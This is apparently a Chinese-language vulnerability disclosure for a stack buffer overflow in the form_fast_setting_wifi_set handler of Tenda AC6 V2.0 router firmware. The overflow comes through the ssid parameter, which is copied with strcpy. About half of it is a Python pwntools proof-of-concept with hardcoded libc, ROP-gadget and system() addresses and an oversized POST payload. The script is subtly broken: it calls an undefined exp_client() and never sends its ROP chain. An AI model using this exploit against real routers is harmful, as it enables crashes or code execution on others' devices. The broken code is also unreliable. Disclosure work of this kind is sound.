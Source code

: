 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `form_fast_setting_wifi_set` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数ssid可控，且它的值通过strcpy函数复制给栈上变量buff，造成溢出

<img width="353" alt="{56F106EB-265A-4E73-9C62-65145AA4093C}" src="https://github.com/user-attachments/assets/6443df7d-7ea4-4387-8a03-4d7b470dd4cd">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_ssid():
	url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
	payload = b'b'*0x400
	data = {"ssid": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_client()
